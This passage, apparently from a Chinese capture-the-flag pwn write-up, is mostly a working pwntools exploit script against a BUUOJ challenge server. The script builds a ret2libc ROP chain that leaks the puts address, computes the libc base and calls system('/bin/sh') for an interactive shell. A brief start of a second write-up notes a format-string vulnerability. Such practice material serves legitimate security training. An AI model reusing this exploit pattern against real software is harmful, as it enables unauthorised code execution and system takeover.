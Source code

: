 ```python
from pwn import *
#from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')   #64位
host='node4.buuoj.cn'
port=26137
io=remote(host,port)
#io=process()
elf=ELF("./pwn")
libc = ELF("./libc")

io.sendline("1")

encrypt= elf.symbols['encrypt']
#main_addr = elf.symbols["main"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
pop_rdi=0x400c83

payload1 = b'\0' + 87*b'A' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(encrypt)
#io.sendlineafter(b"encrypted\n",payload1)
io.recvuntil("Input your Plaintext to be encrypted\n")
io.sendline(payload1)

#puts_addr = u64(io.recvline()[:-1].ljust(8, b'\0'))  
puts_addr = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))

#libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.symbols["puts"]     
bin_sh=base+next(libc.search(b"/bin/sh"))
system=base+libc.symbols["system"]
ret_addr = 0x4006B9

#io.sendline("1")

payload2 = b'\0' + 87*b'A' + p64(ret_addr) + p64(pop_rdi) + p64(bin_sh) + p64(system)
#io.sendlineafter(b"encrypted\n",payload2)
io.recvuntil("Input your Plaintext to be encrypted\n")
io.sendline(payload2)
io.interactive()

```

# *[第五空间2019 决赛]PWN5

32位，动态链接，无PIE

![image-20220313011928099](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852850.png)

dword中为随机数，输入的nptr的值不可能和它相等，但有个明显的格式化字符串漏洞，从而修改dword中的值

![image-20220313012414000](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852104.png)

